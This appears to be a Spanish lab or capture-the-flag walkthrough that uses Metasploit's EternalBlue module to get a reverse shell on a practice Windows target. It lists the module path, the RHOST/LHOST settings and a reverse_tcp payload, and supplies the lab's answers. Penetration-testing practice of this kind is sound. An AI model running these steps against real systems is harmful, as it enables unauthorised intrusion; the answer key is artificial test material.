



Metasploit
En esta parte estaremos usando Mestasploit para acceder a la máquina víctima por medio del ataque EthernalBlue.
Lo primero que haremos es iniciar metasploit con el siguiente comando:
msconsole -q
Find the exploitation code we will run against the machine. What is the full path of the code?
Ahora lo que haremos es muscar un exploit que nos sirva para explotar la vulnerabilidad Ethernablue.
Simplemente realizaremos la siguiente búsqueda dentro de metasploit y veremos que sucede.
search ms17_010

Efectivamente encontramos lo que estamos buscando, para seleccionarlo, por lo tanto la respuesta a la pregunta es ese full path. Para seleccionarlo usamos el comando
use 0
Respuesta: exploit/windows/smb/ms17_010_eternalblue
Show options and set the one required value. What is the name of this value?
Si realizamos un show options, veremos las opciones que queremos configurar, en nuestro caso, solamente RHOST.

Aunque la respuesta correcta sea RHOST, también tendremos que modificar nuestro LHOST debido a que estamos conectados por VPN.
Importan
Si no configuran el LHOST, el ataque no será exitoso.
Por lo general el payload se asigna automáticamente, pero para quitar las dudas lo asignaremos con el siguiente comando:
set payload windows/x64/shell/reverse_tcp
Hecho todo esto solo tendremos que escribir run y presionar ENTER y gualá Reverse shell lograda !!!!
Los otros apartados dentro de la sección no se tomarán en cuenta, ya que soy muy fáciles de hacer y no necesitan respuesta alguna.
